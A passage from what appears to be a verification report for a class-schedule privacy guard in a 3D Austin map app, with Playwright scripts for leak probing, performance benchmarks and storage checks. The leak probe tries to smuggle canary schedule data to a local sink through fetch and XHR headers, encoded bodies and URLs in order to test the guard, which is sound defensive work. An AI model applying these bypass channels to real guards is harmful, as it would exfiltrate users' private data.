  } catch (e) { cloneErr = String(e && e.message || e); }

  const before = g.state();
  let threw = null;
  const w = window.__mk();
  try { w.postMessage(make(c)); }
  catch (e) { threw = String(e && e.message || e); }
  let got = null;
  if (!threw) { got = await Promise.race([w.__last, new Promise(r => setTimeout(() => r({ timeout: true }), 3000))]); }
  try { w.terminate(); } catch (e) {}
  const after = g.state();
  return {
    name: n, cloneCarries, cloneErr,
    blockedDelta: after.blocked - before.blocked,
    opaqueDelta: after.opaqueWorkerLeaves - before.opaqueWorkerLeaves,
    truncDelta: after.truncatedScans - before.truncatedScans,
    threw: threw ? threw.slice(0, 90) : null,
    workerSaw: got && got.text ? got.text.slice(0, 200) : null,
    workerSent: got && got.sent,
  };
}, [name, body, C]);

console.log('\n== SHAPE MATRIX (guard ' + (DISARM ? 'DISARMED' : 'ARMED') + ') ==');
const shapeRows = [];
for (const [name, body] of Object.entries(SHAPES)) {
  sinkReset();
  const r = await probeShape(name, body);
  await page.waitForTimeout(250);
  const st = sinkText();
  r.sinkHasCanary = st.indexOf(C.title) !== -1 || st.indexOf(C.instructor) !== -1 || st.indexOf(C.room) !== -1;
  r.leak = !!(r.cloneCarries && r.blockedDelta === 0);
  shapeRows.push(r);
  console.log(
    (r.leak ? 'LEAK  ' : (r.cloneCarries ? 'ok    ' : 'n/a   ')) +
    name.padEnd(20) +
    ' clone=' + String(r.cloneCarries).padEnd(5) +
    ' blocked=' + String(r.blockedDelta) +
    ' opaque=' + String(r.opaqueDelta) +
    ' sink=' + String(r.sinkHasCanary)
  );
}

// ── channels: doors that never touch the structured-clone walk ─────────────
console.log('\n== CHANNEL MATRIX (guard ' + (DISARM ? 'DISARMED' : 'ARMED') + ') ==');
const CHANNELS = {
  // THE OTHER HALF OF ROUND 8. `inspect()` is handed a method, a URL and a
  // body. Nothing has ever handed it the HEADERS, and a header is a string
  // that goes on the wire.
  fetchHeader: `async (c, sink) => {
     try { const r = await fetch('http://127.0.0.1:' + sink + '/h', { method:'POST', body:'x', mode:'cors', headers: { 'X-Sched': c.title } }); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
  fetchHeadersObj: `async (c, sink) => {
     try { const h = new Headers(); h.set('X-Sched', c.instructor);
       const r = await fetch('http://127.0.0.1:' + sink + '/h2', { method:'POST', body:'x', mode:'cors', headers: h }); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
  fetchRequestHeader: `async (c, sink) => {
     try { const q = new Request('http://127.0.0.1:' + sink + '/h3', { method:'POST', body:'x', mode:'cors', headers: { 'X-Sched': c.room } });
       const r = await fetch(q); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
  xhrHeader: `async (c, sink) => {
     return await new Promise((res) => {
       try {
         const x = new XMLHttpRequest();
         x.open('POST', 'http://127.0.0.1:' + sink + '/xh');
         x.setRequestHeader('X-Sched', c.title);
         x.onloadend = () => res('sent:' + x.status);
         x.send('x');
       } catch (e) { res('threw:' + String(e.message).slice(0, 70)); }
     });
   }`,
  // Controls: shapes previous rounds closed on this door.
  fetchUtf16Body: `async (c, sink) => {
     const s = c.title; const u = new Uint16Array(s.length);
     for (let i=0;i<s.length;i++) u[i]=s.charCodeAt(i);
     try { const r = await fetch('http://127.0.0.1:' + sink + '/u16', { method:'POST', body: u.buffer, mode:'cors' }); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
  fetchPctUrl: `async (c, sink) => {
     try { const r = await fetch('http://127.0.0.1:' + sink + '/q?t=' + encodeURIComponent(c.title), { mode:'cors' }); return 'sent:' + r.status; }
     catch (e) { return 'err:' + String(e.message).slice(0, 70); }
   }`,
};

const channelRows = [];
for (const [name, body] of Object.entries(CHANNELS)) {
  sinkReset();
  const r = await page.evaluate(async ([n, b, c, sp]) => {
    const g = window.WAYFIND.store.guard;
    const before = g.state();
    let ret = null, threw = null;
    try { ret = await (new Function('c', 'sink', 'return (' + b + ')(c, sink)'))(c, sp); }
    catch (e) { threw = String(e && e.message || e).slice(0, 100); }
    const after = g.state();
    return { name: n, ret, threw,
             blockedDelta: after.blocked - before.blocked,
             checkedDelta: after.checked - before.checked };
  }, [name, body, C, SINK_PORT]);
  await page.waitForTimeout(500);
  const st = sinkText();
  r.sinkHasCanary = st.indexOf(C.title) !== -1 || st.indexOf(C.instructor) !== -1 ||
                    st.indexOf(C.room) !== -1 || st.indexOf(encodeURIComponent(C.title)) !== -1;
  r.sinkHasUtf16 = st.replace(/\u0000/g, '').indexOf(C.title) !== -1;
  channelRows.push(r);
  console.log(
    ((r.sinkHasCanary || r.sinkHasUtf16) ? 'ON-WIRE ' : '        ') +
    name.padEnd(20) +
    ' blocked=' + String(r.blockedDelta).padEnd(3) +
    ' checked=' + String(r.checkedDelta).padEnd(3) +
    ' ret=' + JSON.stringify(r.ret) +
    (r.threw ? ' threw=' + r.threw : '')
  );
}

console.log('\n== FINAL STATE ==');
console.log(JSON.stringify(await page.evaluate(() => window.WAYFIND.store.guard.state()), null, 1));

await browser.close();
sink.close();

const leaks = shapeRows.filter(r => r.leak).map(r => r.name);
const wire = channelRows.filter(r => r.sinkHasCanary || r.sinkHasUtf16).map(r => r.name);
console.log('\nSHAPE LEAKS: ' + (leaks.length ? leaks.join(', ') : 'none'));
console.log('CHANNELS ON THE WIRE: ' + (wire.length ? wire.join(', ') : 'none'));
process.exit(0);
```

### 11h. `r8-map-cost.mjs` — the map still draws, and the true A/B

Both timers are installed AFTER the guard, so each interval includes the scan;
the `fetch` timer is new this round because the header read is on that path.
`--baseline <file>` serves a DIFFERENT `js/wayfind.js` to the page and changes
nothing on disk, which is what makes the round-7-versus-round-8 comparison a
real one. `--shot` takes the frame at `shots/si/privacy/r8-map-guarded.jpg`.

```js
/**
 * r8-map-cost.mjs <label> [--shot <path>] [--nosched] [--baseline <file>]
 *
 * Two questions about the round-8 changes, on the real city:
 *   1. does the map still draw with the guard armed and a schedule stored?
 *   2. what do the two new costs come to — the decode retry now reaching every
 *      string leaf in a worker payload, and the header read now happening on
 *      every network request?
 *
 * Both are measured INSIDE the page, as time spent in the guarded
 * `Worker.prototype.postMessage` and the guarded `window.fetch` across an
 * identical scripted camera drive — never wall clock, which on this suite
 * measures the machine. Both timers are installed AFTER the guard, so the
 * interval includes the scan. One reading is not a result: the caller
 * interleaves labels and takes the minimum (scripts/verify/README.md).
 *
 * `--baseline <file>` SERVES A DIFFERENT `js/wayfind.js` to the page and
 * changes nothing on disk — `git show <round-7 tip>:js/wayfind.js > tmp` gives
 * a true A/B where the only difference is the round-8 diff. Flipping the new
 * taste flags off would have been the easy version and a worse one: the merged
 * string scanner has no flag, so a flag A/B silently excludes the change most
 * likely to cost something.
 */
import fs from 'node:fs';
import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const label = process.argv[2] || 'run';
const shotAt = process.argv.includes('--shot') ? process.argv[process.argv.indexOf('--shot') + 1] : null;
const noSched = process.argv.includes('--nosched');
const baseline = process.argv.includes('--baseline')
  ? process.argv[process.argv.indexOf('--baseline') + 1] : null;

const C = {
  title: 'Thaumaturgical Marimba Rhetoric',
  instructor: 'Prof. Ottoline Quennevire',
};

const browser = await launch(chromium, { maxMs: 900000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));

if (baseline) {
  const body = fs.readFileSync(baseline, 'utf8');
  await page.route('**/js/wayfind.js*', (route) =>
    route.fulfill({ status: 200, contentType: 'application/javascript; charset=utf-8', body }));
}

await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(8000);

await page.evaluate(([c, none]) => {
  if (none) { window.WAYFIND.store.clear(); }
  else {
    window.WAYFIND.store.save({
      term: 'Fall 2026', tz: 'America/Chicago',
      sources: [{ kind: 'ut-registration' }],
      classes: [{ code: 'RLP', room: '0.130', title: c.title, instructor: c.instructor,
                  days: ['T', 'TH'], startMin: 600, endMin: 660 }],
    });
  }
  window.WAYFIND.store.guard.arm();
  window.__gt = 0; window.__gn = 0;
  const pm = Worker.prototype.postMessage;      // already the guarded one
  Worker.prototype.postMessage = function () {
    const a = performance.now();
    try { return pm.apply(this, arguments); }
    finally { window.__gt += performance.now() - a; window.__gn++; }
  };
  window.__ft = 0; window.__fn = 0;
  const of = window.fetch;                      // already the guarded one
  window.fetch = function () {
    const a = performance.now();
    try { return of.apply(this, arguments); }
    finally { window.__ft += performance.now() - a; window.__fn++; }
  };
}, [C, noSched]);

const LEGS = [
  { center: [-97.7395, 30.2849], zoom: 15.2, pitch: 55, bearing: 20 },
  { center: [-97.7370, 30.2860], zoom: 17.0, pitch: 62, bearing: 95 },
  { center: [-97.7420, 30.2830], zoom: 18.2, pitch: 70, bearing: 190 },
  { center: [-97.7345, 30.2895], zoom: 16.0, pitch: 45, bearing: 300 },
  { center: [-97.7400, 30.2865], zoom: 18.6, pitch: 74, bearing: 15 },
  { center: [-97.7380, 30.2840], zoom: 14.5, pitch: 40, bearing: 120 },
];
for (const leg of LEGS) {
  await page.evaluate((l) => { window.__map.jumpTo(l); }, leg);
  await page.waitForTimeout(2600);
}
await page.waitForTimeout(4000);

const out = await page.evaluate(() => {
  const s = window.WAYFIND.store.guard.state();
  const m = window.__map;
  return {
    guardMs: Math.round(window.__gt), guardCalls: window.__gn,
    fetchMs: Math.round(window.__ft), fetchCalls: window.__fn,
    watched: s.watched, armed: s.armed,
    blocked: s.blocked, opaqueWorkerLeaves: s.opaqueWorkerLeaves,
    truncatedScans: s.truncatedScans, scanThrows: s.scanThrows,
    inspectFailures: s.inspectFailures,
    binaryLeaves: s.binaryLeaves, binaryMB: +(s.binaryBytes / 1048576).toFixed(1),
    // undefined on the round-7 baseline, which is itself the check that
    // `--baseline` really served the other file.
    headersScanned: s.headersScanned, unreadableHeaders: s.unreadableHeaders,
    encodedHits: s.encodedHits,
    styleLoaded: m.isStyleLoaded(), tilesLoaded: m.areTilesLoaded(),
    layers: m.getStyle().layers.length,
  };
});

if (shotAt) {
  // README: settle, screenshot twice, trust the second.
  await page.evaluate((l) => { window.__map.jumpTo(l); }, { center: [-97.7396, 30.2862], zoom: 16.6, pitch: 62, bearing: 28 });
  await page.waitForTimeout(6000);
  await page.screenshot({ path: shotAt, type: 'jpeg', quality: 80 });
  await page.waitForTimeout(1500);
  await page.screenshot({ path: shotAt, type: 'jpeg', quality: 80 });
}

console.log(label + ' ' + JSON.stringify(out));
await browser.close();
process.exit(0);
```

### 11i. `r8-micro.mjs` — the isolated cost, because a null result is not "free"

Four fixed payloads, guard-on minus guard-off in the same page, minimum of
three reps. Run once plain and once with `--baseline` and compare the tables.

```js
/**
 * r8-micro.mjs [--baseline <file>]
 *
 * The isolated cost of round 8, on fixed payloads, because the real-city A/B
 * came back a null result and "no result" is not the same as "free". Round 7's
 * `r7-micro.mjs` exists for the same reason and this is its shape.
 *
 * Four benchmarks, each the guard's own wrapper timed against the unwrapped
 * function on the SAME payload in the SAME page, minimum of three reps:
 *
 *   strings-plain   20k short strings with no `%` and no `+` — this is what the
 *                   new gate costs when it never fires, i.e. what MapLibre pays
 *   strings-encoded the same 20k, percent-encoded — what the retry costs when
 *                   the gate DOES fire on every leaf, the worst honest case
 *   binary-256k     one 256 KB buffer — the byte-pattern table is bigger in
 *                   round 8 (encoded needles), so the bucket lookups are more
 *   fetch-headers   a request with eight headers, which round 7 never read
 *
 * `--baseline <file>` serves a different `js/wayfind.js` (see r8-map-cost.mjs).
 * Run it once with and once without and compare the two tables.
 */
import fs from 'node:fs';
import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const baseline = process.argv.includes('--baseline')
  ? process.argv[process.argv.indexOf('--baseline') + 1] : null;
const label = baseline ? 'ROUND-7' : 'ROUND-8';

const C = { title: 'Thaumaturgical Marimba Rhetoric', instructor: 'Prof. Ottoline Quennevire' };

const browser = await launch(chromium, { maxMs: 900000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));
if (baseline) {
  const body = fs.readFileSync(baseline, 'utf8');
  await page.route('**/js/wayfind.js*', (route) =>
    route.fulfill({ status: 200, contentType: 'application/javascript; charset=utf-8', body }));
}
await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(6000);

const rows = await page.evaluate(async (c) => {
  window.WAYFIND.store.save({
    term: 'Fall 2026', tz: 'America/Chicago', sources: [{ kind: 'ut-registration' }],
    classes: [{ code: 'RLP', room: '0.130', title: c.title, instructor: c.instructor,
                days: ['T', 'TH'], startMin: 600, endMin: 660 }],
  });
  window.WAYFIND.store.guard.arm();

  // A worker that does nothing, so the only thing between guarded and
  // unguarded is the guard.
  const url = URL.createObjectURL(new Blob(['self.onmessage=()=>{};'], { type: 'text/javascript' }));
  const w = new Worker(url);
  const guarded = Worker.prototype.postMessage;              // the wrapper
  const plain = Object.getPrototypeOf(Object.getPrototypeOf(w)).postMessage ===
    guarded ? null : null;
  // The unwrapped original is not reachable from here, so measure the guard
  // directly instead: time the inspection by calling the wrapper, and time the
  // same call with the watchlist emptied (the guard's own documented fast
  // path, `if (!schedRe) return`). The difference IS the guard's work.
  const rearm = () => window.WAYFIND.store.save({
    term: 'Fall 2026', tz: 'America/Chicago', sources: [{ kind: 'ut-registration' }],
    classes: [{ code: 'RLP', room: '0.130', title: c.title, instructor: c.instructor,
                days: ['T', 'TH'], startMin: 600, endMin: 660 }],
  });

  const time = (payload, reps, n) => {
    const one = () => {
      const a = performance.now();
      for (let i = 0; i < n; i++) guarded.call(w, payload);
      return (performance.now() - a) / n;
    };
    let on = Infinity, off = Infinity;
    for (let r = 0; r < reps; r++) {
      rearm();
      on = Math.min(on, one());
      window.WAYFIND.store.clear();
      off = Math.min(off, one());
    }
    rearm();
    return { on: +on.toFixed(4), off: +off.toFixed(4), delta: +(on - off).toFixed(4) };
  };

  const plainStrings = [];
  for (let i = 0; i < 20000; i++) plainStrings.push('layer_' + i + '_source_openmaptiles');
  const encStrings = plainStrings.map((s) => encodeURIComponent(s + ' a b'));
  const buf = new Uint8Array(256 * 1024);
  for (let i = 0; i < buf.length; i++) buf[i] = (i * 37) & 0xff;

  const out = [];
  out.push(['strings-plain  ', time({ s: plainStrings }, 3, 12)]);
  out.push(['strings-encoded', time({ s: encStrings }, 3, 12)]);
  out.push(['binary-256k    ', time({ b: buf }, 3, 120)]);

  // the header path, on the real guarded fetch
  const hdrs = { 'X-A': 'aaaa', 'X-B': 'bbbb', 'X-C': 'cccc', 'X-D': 'dddd',
                 'X-E': 'eeee', 'X-F': 'ffff', 'X-G': 'gggg', 'X-H': 'hhhh' };
  const timeFetch = (init, reps, n) => {
    const one = () => {
      const a = performance.now();
      const ps = [];
      for (let i = 0; i < n; i++) ps.push(fetch('data/does-not-exist-' + i + '.json', init).catch(() => {}));
      const dt = (performance.now() - a) / n;    // synchronous part only: the guard
      return dt;
    };
    let on = Infinity, off = Infinity;
    for (let r = 0; r < reps; r++) {
      rearm(); on = Math.min(on, one());
      window.WAYFIND.store.clear(); off = Math.min(off, one());
    }
    rearm();
    return { on: +on.toFixed(4), off: +off.toFixed(4), delta: +(on - off).toFixed(4) };
  };
  out.push(['fetch-8-headers', timeFetch({ headers: hdrs }, 3, 60)]);
  out.push(['fetch-no-header', timeFetch(undefined, 3, 60)]);

  w.terminate();
  return out;
}, C);

console.log('\n== ' + label + ' — ms per call, minimum of 3 reps ==');
console.log('benchmark          guard-on   guard-off   delta');
for (const [name, r] of rows) {
  console.log(name + '  ' + String(r.on).padStart(8) + String(r.off).padStart(12) + String(r.delta).padStart(9));
}
await browser.close();
process.exit(0);
```

### 11j. `r8-storage.mjs` — the storage path re-driven after the rewiring

Round 8 changed `inspect()`'s signature and patched
`XMLHttpRequest.setRequestHeader`, so the ordinary path a student takes was
driven again end to end: nine checks, a real click on the real Delete button,
and a genuinely fresh document rather than a reload of the page that seeded it.

```js
/**
 * r8-storage.mjs — the storage path, end to end, after round 8 rewired
 * `inspect()`'s signature and patched `XMLHttpRequest.setRequestHeader`.
 *
 * Nine checks, driven the way a student drives it: the panel starts empty, a
 * real schedule goes in, a REAL CLICK on the real Delete button removes it, and
 * a GENUINELY FRESH DOCUMENT (a new page, not a reload of the seeding page, so
 * the assertion cannot be testing its own seed) finds nothing anywhere. Then
 * the feature is loaded WITHOUT `?walk=1` to confirm off is still off.
 *
 * Exit 1 on any failure, per scripts/verify/README.md §142.
 */
import { chromium } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/node_modules/playwright-core/index.mjs';
import { launch } from 'file:///C:/Users/simip/Projects/austin-3d-explorer/.claude/worktrees/wf_ff5b28e1-26f-5/scripts/verify/chrome.mjs';

const BASE = process.env.VERIFY_URL || 'http://127.0.0.1:8951';
const C = { title: 'Thaumaturgical Marimba Rhetoric', instructor: 'Prof. Ottoline Quennevire' };

let fails = 0;
const ok = (name, cond, extra) => {
  console.log((cond ? '  PASS  ' : '* FAIL  ') + name + (extra == null ? '' : '   ' + extra));
  if (!cond) fails++;
};

const browser = await launch(chromium, { maxMs: 600000 });
const ctx = await browser.newContext({ viewport: { width: 1280, height: 800 } });
const page = await ctx.newPage();
page.on('pageerror', (e) => console.log('PAGEERROR: ' + e.message));

await page.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page.waitForFunction(() => window.__map && window.__map.isStyleLoaded && window.__map.isStyleLoaded(), null, { timeout: 180000 });
await page.waitForTimeout(6000);
await page.evaluate(() => { try { window.WAYFIND.store.clear(); } catch (e) {} });
await page.evaluate(() => { const b = document.querySelector('.wf-fab, #wf-fab'); if (b) b.click(); });
await page.waitForTimeout(600);

ok('1. the guard is installed and armed',
  await page.evaluate(() => { const s = window.WAYFIND.store.guard.state(); return s.installed && s.armed; }));
ok('2. the privacy panel is mounted and empty',
  await page.evaluate(() => {
    const el = document.querySelector('#wf-priv');
    return !!el && /No schedule saved/i.test(el.textContent);
  }));

const saved = await page.evaluate((c) => window.WAYFIND.store.save({
  term: 'Fall 2026', tz: 'America/Chicago', sources: [{ kind: 'ut-registration' }],
  classes: [{ code: 'RLP', room: '0.130', title: c.title, instructor: c.instructor,
              days: ['T', 'TH'], startMin: 600, endMin: 660 }],
}), C);
await page.waitForTimeout(400);
ok('3. a real schedule saves', !!(saved && saved.ok), JSON.stringify(saved));
ok('4. the panel names a COUNT and a SOURCE and never a class title',
  await page.evaluate((c) => {
    const el = document.querySelector('#wf-priv');
    const t = el ? el.textContent : '';
    return /1 class/i.test(t) && /registration/i.test(t) && t.indexOf(c.title) === -1;
  }, C));
ok('5. the watchlist really armed on the saved content',
  await page.evaluate(() => window.WAYFIND.store.guard.state().watched > 0));

// a real click on the real button, on a sheet the click reopens itself
await page.evaluate(() => { const b = document.querySelector('.wf-fab, #wf-fab'); if (b) b.click(); });
await page.waitForTimeout(500);
const clicked = await page.evaluate(() => {
  const b = document.querySelector('#wf-priv-del');
  if (!b) return 'no-button';
  b.click();
  return 'clicked';
});
await page.waitForTimeout(900);
ok('6. Delete is a real button and a real click reaches it', clicked === 'clicked', clicked);
ok('7. the panel says it is gone',
  await page.evaluate(() => /Deleted/i.test((document.querySelector('#wf-priv') || {}).textContent || '')));

// a GENUINELY fresh document, not a reload of the page that seeded it
const page2 = await ctx.newPage();
await page2.goto(BASE + '/index.html?walk=1&drift=0', { waitUntil: 'domcontentloaded' });
await page2.evaluate(() => { try { window.cancelGraphicsAutoDetect && window.cancelGraphicsAutoDetect(); } catch (e) {} });
await page2.waitForTimeout(5000);
const after = await page2.evaluate(() => {
  const keys = [];
  for (let i = 0; i < localStorage.length; i++) {
    const k = localStorage.key(i);
    if (k && k.indexOf('austin3d.schedule.') === 0) keys.push(k);
  }
  return { keys, has: window.WAYFIND.store.has(), watched: window.WAYFIND.store.guard.state().watched };
});
ok('8. a fresh document finds no schedule key, no schedule, no watchlist',
  after.keys.length === 0 && after.has === false && after.watched === 0, JSON.stringify(after));

// off is still off
const page3 = await ctx.newPage();
await page3.goto(BASE + '/index.html?drift=0', { waitUntil: 'domcontentloaded' });
await page3.waitForTimeout(4000);
ok('9. with the feature off there is no panel and fetch is still native',
  await page3.evaluate(() => !document.querySelector('#wf-priv') &&
    /\{\s*\[native code\]\s*\}/.test(String(window.fetch)) &&
    /\{\s*\[native code\]\s*\}/.test(String(XMLHttpRequest.prototype.setRequestHeader))));

await browser.close();
console.log('\n' + (fails ? fails + ' FAILED' : 'ALL PASS') + '  (9 checks)');
process.exit(fails ? 1 : 0);
```
